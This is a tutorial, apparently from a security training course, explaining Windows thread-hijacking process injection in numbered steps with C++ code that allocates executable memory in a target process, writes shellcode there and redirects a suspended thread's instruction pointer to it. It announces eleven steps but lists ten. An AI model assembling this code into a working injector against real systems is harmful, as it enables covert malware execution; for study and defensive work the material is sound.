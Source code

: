 # Thread Hijacking: A High-Level Overview

Thread (execution) hijacking can be broken down into the following eleven steps:

1. Locate and open a target process to control.
2. Allocate memory region for malicious code.
3. Write malicious code to allocated memory.
4. Identify the thread ID of the target thread to hijack.
5. Open the target thread.
6. Suspend the target thread.
7. Obtain the thread context.
8. Update the instruction pointer to the malicious code.
9. Rewrite the target thread context.
10. Resume the hijacked thread.

We will break down a basic thread hijacking script to identify each of the steps and explain them in more depth below.

---

## Steps 1–3: Process Injection Basics

The first three steps follow the common process injection steps. These will not be explained in detail here, but the source code is provided below:

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS, // Requests all possible access rights
    FALSE, // Child processes do not inherit parent process handle
    processId // Stored process ID
);

PVOID remoteBuffer = VirtualAllocEx(
    hProcess, // Opened target process
    NULL, 
    sizeof(shellcode), // Region size of memory allocation
    (MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
    PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the committed pages
);

WriteProcessMemory(
    hProcess, // Opened target process
    remoteBuffer, // Allocated memory region
    shellcode, // Data to write
    sizeof(shellcode), // Byte size of data
    NULL
);
```

---

## Step 4: Identify the Thread ID

To identify the thread ID, we use a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Thread32First()`, and `Thread32Next()`. These APIs loop through a snapshot of a process to enumerate thread information.

```cpp
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot(
    TH32CS_SNAPTHREAD, // Include all threads on the system
    0 // Indicates the current process
);

Thread32First(
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next(
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
)) {
    // Process threads
}
```

---

## Step 5: Open the Target Thread

Once the thread ID is identified, we can open the target thread using `OpenThread` with the `THREADENTRY32` structure pointer.

```cpp
if (threadEntry.th32OwnerProcessID == processID) { // Verify parent process IDs match
    HANDLE hThread = OpenThread(
        THREAD_ALL_ACCESS, // Requests all possible access rights
        FALSE, // Child threads do not inherit parent thread handle
        threadEntry.th32ThreadID // Reads the thread ID from THREADENTRY32
    );
    break;
}
```

---

## Step 6: Suspend the Target Thread

To suspend the opened target thread, use `SuspendThread`:

```cpp
SuspendThread(hThread);
```

---

## Step 7: Obtain the Thread Context

Retrieve the thread context using `GetThreadContext`:

```cpp
CONTEXT context;
GetThreadContext(
    hThread, // Handle for the thread
    &context // Pointer to store the context structure
);
```

---

## Step 8: Overwrite the Instruction Pointer (RIP)

Update the `RIP` (Instruction Pointer Register) to point to the malicious memory region. `RIP` determines the next code instruction and controls the flow of execution.

```cpp
context.Rip = (DWORD_PTR)remoteBuffer; // Point RIP to the malicious buffer
```

---

## Step 9: Update the Thread Context

Apply the updated context to the thread using `SetThreadContext`:

```cpp
SetThreadContext(
    hThread, // Handle for the thread
    &context // Pointer to the context structure
);
```

---

## Step 10: Resume the Hijacked Thread

Finally, resume the target thread using `ResumeThread`:

```cpp
ResumeThread(hThread);
```

---

By combining these steps, you can create a process injector via thread hijacking. Use the provided C++ injector to experiment with thread hijacking techniques.
